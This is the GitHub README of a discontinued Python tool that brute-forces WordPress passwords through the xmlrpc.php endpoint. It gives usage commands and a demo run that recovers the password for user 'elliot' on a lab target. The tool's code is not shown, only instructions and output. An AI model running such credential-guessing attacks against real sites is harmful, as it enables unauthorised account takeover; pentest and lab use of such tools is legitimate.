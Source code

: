 <p align="center"><img src="https://i.imgur.com/K4aUmMo.png"></p>

<h4 align="center">An XMLRPC BruteForcer for Wordpress  - Inpired by (1N3@CrowdShield)</h4>

## Note - This project is discontinued. No more updates will be provided! Sorry!
> I switched to golang :-)

> Fork it/do whatever you want with it.

<p align="center">
  <a href="https://twitter.com/kavishgour"><b>Twitter</b></a>
  <span> - </span>
  <a href="https://t.me/kavishgr"><b>Telegram</b></a>
  <span> - </span>
  <a href="https://kavishgr.gitlab.io"><b>Blog</b></a>
</p>

| Available                            | in                                   |
|--------------------------------------|--------------------------------------|
| ![](https://i.imgur.com/1wJVDV5.png) | ![](https://i.imgur.com/z36xL8c.png) |

## Usage

```bash
python3 xmlrcpbruteforce.py http://wordpress.org/xmlrpc.php passwords.txt username
python3 xmlrpcbruteforce.py http://wordpress.org/xmlrpc.php passwords.txt userlist.txt ( >>in progess<<)
```
## Bugs

If you get an ```xml.etree.ElementTree.ParseError```:

* Did you forget to add 'xmlrpc' in the url ?
* Try to add or remove 'https' or 'www'.

## TODO

* Exception Handling for xml.etree.ElementTree.ParseError
* 'userlist' enumeration

## Demo

```bash
MacBook-Pro: kavish$ python3 xmlrpcbruteforce.py http://192.168.100.34/xmlrpc.php 10k-most-common.txt elliot

---------------Examining Target--------------------

[>] Target is vulnerable.

--=[Target: http://192.168.100.34/xmlrpc.php]=--

        	[...Bruteforcing...]
--=[Tried: 1000 passwords]=--
--=[Tried: 2000 passwords]=--
--=[Tried: 3000 passwords]=--
--------------- BRUTEFORCE SUCCESSFULL  ---------------
--=[User found]=--
Login: elliot
Password: ER28-0652
--=[Exiting...]=--
```

